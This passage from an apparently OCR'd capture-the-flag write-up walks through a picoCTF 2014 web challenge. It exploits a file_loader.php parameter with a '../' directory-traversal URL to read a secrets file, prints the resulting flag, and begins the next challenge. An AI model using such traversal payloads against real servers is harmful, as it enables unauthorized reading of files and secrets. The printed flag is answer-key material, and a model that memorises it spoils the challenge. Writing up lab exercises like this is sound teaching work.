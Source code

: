 ```php
          <?php
             $config_file = fopen("/resources/config/admin_mode.config", "r");
             if (fgets($config_file) === "true") {
                $flag_file = fopen("/resources/secrets/flag", "r");
                echo fgets($flag_file);
                flose($flag_file);
             }
             fclose($config_file);
           ?>
```
After messing around with that for a little while I realized there is no way (that I could find) so change that varible, so I moved on...

The next thing that looked a bit off was this:
```bash
<img src="file_loader.php?file=zone1.jpg" class="zone"/>
```
A php function that loads files arbitrarily should be useful.
It can be used like this: http://web2014.picoctf.com/potentially-hidden-password-3878213/file_loader.php?file=zone1.jpg
So, I now needed to find the flag, well refering to the suspicious code earier, it should be located at: /resources/secrets/flag
Great, now to load the file: http://web2014.picoctf.com/potentially-hidden-password-3878213/file_loader.php?file=resources/secrets/flag
 No such file: /resources/files/resources/secrets/flag

Hmm, ok, so we need to traverse directories. ".." represents 1 directory up (cd .. will move you up 1 folder), so I used that: http://web2014.picoctf.com/potentially-hidden-password-3878213/file_loader.php?file=/../secrets/flag
There's the flag: i_like_being_included

PNG or Not?
------------

Here, there is a picture of a QR code. My first instinct was to simply lookup what the QR linked. Sadly, it wasn't that easy.
Here is the picture:

![](images/png_or_not.png)
